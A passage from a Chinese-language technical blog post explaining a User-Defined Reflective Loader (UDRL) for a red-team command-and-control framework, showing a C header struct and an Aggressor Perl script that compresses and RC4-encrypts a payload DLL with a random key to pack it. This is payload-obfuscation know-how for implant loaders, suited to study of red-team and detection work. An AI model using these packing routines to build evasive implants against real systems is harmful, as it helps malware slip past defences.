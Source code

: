 ![img](浅谈UDRL/diagram_lznt1-layout-1024x207.png)

​	

以下是在UDRL中创建的`UDRL_HEADER_DATA`结构

```cpp
typedef struct _UDRL_HEADER_DATA {
    DWORD CompressedSize;  //the size of the compressed artefact
    DWORD RawFileSize;        //the size of the RAW DLL
    DWORD LoadedImageSize; // the size of the loaded image
} UDRL_HEADER_DATA, * PUDRL_HEADER_DATA;
```



### 3.RC4加密

Aggressor脚本在此处选择了简单的RC4加密算法，使用随机的生成的rc4密钥并放置于`UDRL_HEADER_DATA`的后面，在`UDRL_HEADER_DATA`结构里存放RC4密钥的长度

```perl
# rc4加密函数
sub rc4_encrypt {
    # referenced https://gist.github.com/CCob/9dd8de00c2c6ad069301a225589223fa by CCob (_EthicalChaos_)
    local('$cipher $encrypted_buffer $encryption_key $key $plaintext_buffer');
    $plaintext_buffer = $1;
    $encryption_key = $2;

    $cipher = [Cipher getInstance: "RC4"];
    $key = [new SecretKeySpec: $encryption_key, "RC4"];
    [$cipher init: [Cipher ENCRYPT_MODE], $key];
    $encrypted_buffer = [$cipher doFinal: $plaintext_buffer];
    
    return $encrypted_buffer;
}

$rc4_key_length = 11;
$rc4_key = generate_random_bytes($rc4_key_length);
[…SNIP…]

$encrypted_buffer = rc4_encrypt($compressed_buffer, $rc4_key);
$udrl_header_data = pack(
    “I-I-I-I-“,
    $compressed_file_size,
    $raw_file_size,
    $loaded_image_size,
    $rc4_key_length,
);
return $udrl_header_data . $rc4_key . $encrypted_buffer;
```
